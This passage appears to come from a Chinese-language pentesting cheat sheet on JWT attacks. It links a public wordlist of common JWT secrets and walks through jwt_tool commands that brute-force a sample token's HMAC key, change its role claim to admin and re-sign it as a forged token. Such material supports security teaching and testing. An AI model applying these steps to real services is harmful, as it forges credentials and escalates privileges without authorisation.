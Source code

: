 实用的3502个公开可用的JWT列表：[wallarm/jwt-secrets/jwt.secrets.list](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list)，包括`your_jwt_secret`、`change_this_super_secret_random_string`等。

#### JWT工具

首先，使用[ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)暴力破解用于计算签名的“密钥”

```powershell
python3 -m pip install termcolor cprint pycryptodomex requests
python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6InVzZXIiLCJpYXQiOjE1MTYyMzkwMjJ9.1rtMXfvHSjWuH6vXBCaLLJiBghzVrLJpAQ6Dl5qD4YI -d /tmp/wordlist -C
```

然后编辑JSON Web Token中的字段。

```powershell
当前角色值为：user
请输入新值并按ENTER键
> admin
[1] sub = 1234567890
[2] role = admin
[3] iat = 1516239022
[0] 继续下一步

请选择一个字段编号（或0继续）：
> 0
```

最后，使用先前检索到的“密钥”对令牌进行签名以完成令牌。

```powershell
令牌签名：
[1] 使用已知密钥签名令牌
[2] 从易受CVE-2015-2951攻击的令牌中去除签名
[3] 使用公钥绕过漏洞进行签名
[4] 使用密钥文件签名令牌

请从上述选项中选择一个（1-4）：
> 1

请输入已知密钥：
> secret

请输入密钥长度：
[1] HMAC-SHA256
[2] HMAC-SHA384
[3] HMAC-SHA512
> 1

您的新伪造令牌：
[+] URL安全：eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.xbUXlOQClkhXEreWmB3da/xtBsT0Kjw7truyhDwF5Ic
[+] 标准：eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.xbUXlOQClkhXEreWmB3da/xtBsT0Kjw7truyhDwF5Ic
```
